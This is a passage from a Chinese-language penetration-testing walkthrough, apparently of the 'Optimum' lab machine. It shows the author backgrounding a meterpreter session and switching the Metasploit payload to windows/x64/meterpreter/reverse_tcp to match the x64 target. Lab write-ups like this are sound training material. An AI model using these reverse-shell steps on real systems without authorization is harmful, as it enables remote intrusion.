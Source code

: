 如果我们仔细观察，可以看到 Optimum 的架构是 ****x64**** ，但是我们的 meterpreter 版本设置为 x86。我们需要改变这一切！

我用命令将这个会话放在后台

```
background
```

我再次检查模块选项，发现有效负载选项设置不正确

![Screenshot-2019-10-07-at-23.17.10](img/4c4af5cfcab8150ee334869039a99c73.png)

它正在使用

```
windows/meterpreter/reverse_tcp
```

代替

```
windows/x64/meterpreter/reverse_tcp
```

我用下面的命令设置了有效负载

```
set payload windows/x64/meterpreter/reverse_tcp
```

![Screenshot-2019-10-07-at-23.20.25](img/af4ce4b873c9b017c968aca01aa338b8.png)
